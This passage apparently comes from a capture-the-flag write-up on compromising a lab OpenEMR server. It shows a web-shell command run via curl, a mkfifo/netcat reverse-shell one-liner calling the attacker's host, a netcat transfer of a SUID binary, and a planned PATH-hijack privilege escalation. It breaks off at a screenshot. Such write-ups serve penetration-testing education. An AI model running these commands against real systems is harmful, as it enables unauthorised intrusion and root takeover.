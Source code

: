 With the following curl request we can verify that our command was interpreted correctly.

```console
root@kali:~$ curl -s http://192.168.179.163/openemr/sites/default/config.php?z=id
uid=479(apache) gid=416(apache) groups=416(apache)
```

Then, we need to start a netcat listener and execute the following curl request.

```console
root@kali:~$ curl -s http://192.168.179.163/openemr/sites/default/config.php?z=$(urlencode -m 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.179.1 443 >/tmp/f')
```

We have a reverse shell with apache privileges.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.163] 43690
sh: no job control in this shell
sh-4.1$ python -c 'import pty;pty.spawn("/bin/bash")'   
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.1$ whoami
whoami
apache
```

Listing the SUID binaries an uncommon binary called healthcheck catches my attention.

```console
bash-4.1$ find / -perm -4000 -type f 2>/dev/null
...
/usr/bin/healthcheck
...
```

## Privilege Escalation

I downloaded the binary to the attacking machine.

```console
root@kali:~$ nc -vlnp 5656 > healthcheck

bash-4.1$ nc 192.168.179.1 5656 < /usr/bin/healthcheck
```

I decompiled the binary with cutter, and I could see a series of commands running without the absolute path, we can hijack the path of these commands to get root.

![](/assets/images/healthcare/screenshot-8.png)
